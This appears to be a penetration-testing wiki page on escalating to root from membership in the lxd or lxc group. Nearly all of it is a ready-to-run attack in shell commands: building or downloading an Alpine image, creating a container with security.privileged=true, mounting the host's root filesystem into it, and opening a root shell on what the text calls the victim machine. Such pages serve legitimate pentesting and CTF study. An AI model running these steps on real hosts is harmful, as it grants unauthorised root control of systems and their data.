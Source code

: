 # lxd/lxc Group - Privilege escalation


If you belong to _**lxd**_ **or** _**lxc**_ **group**, you can become root

## Exploiting without internet

### Method 1

You can download an alpine image to use with lxd from a trusted repository.
Canonical publishes daily builds in their site: [[https://images.lxd.canonical.com/images/alpine/3.18/amd64/default/|https://images.lxd.canonical.com/images/alpine/3.18/amd64/default/]]
Just grab both **lxd.tar.xz** and **rootfs.squashfs** from the newest build. (Directory name is the date).

Alternativelly you can install in your machine this distro builder: [[https://github.com/lxc/distrobuilder) (follow the instructions of the github|https://github.com/lxc/distrobuilder]]:

```bash
# Install requirements
sudo apt update
sudo apt install -y golang-go gcc debootstrap rsync gpg squashfs-tools git make build-essential libwin-hivex-perl wimtools genisoimage    

# Clone repo
mkdir -p $HOME/go/src/github.com/lxc/
cd $HOME/go/src/github.com/lxc/
git clone https://github.com/lxc/distrobuilder

# Make distrobuilder
cd ./distrobuilder
make

# Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

# Create the container - Beware of architecture while compiling locally.
sudo $HOME/go/bin/distrobuilder build-incus alpine.yaml -o image.release=3.18 -o image.architecture=x86_64
```
```
Upload the files **incus.tar.xz** (**lxd.tar.xz** if you downloaded from Canonical repository) and **rootfs.squashfs**, add the image to the repo and create a container:

```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Check the image is there
lxc image list

# Create the container
lxc init alpine privesc -c security.privileged=true

# List containers
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
```
> [!CAUTION]
> If you find this error _**Error: No storage pool found. Please create a new storage pool**_\
> Run **`lxd init`** and set-up all options on default. Then **repeat** the previous chunk of commands

Finally you can execute the container and get root:

```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```
```
### Method 2

Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```bash
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686

# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```
```



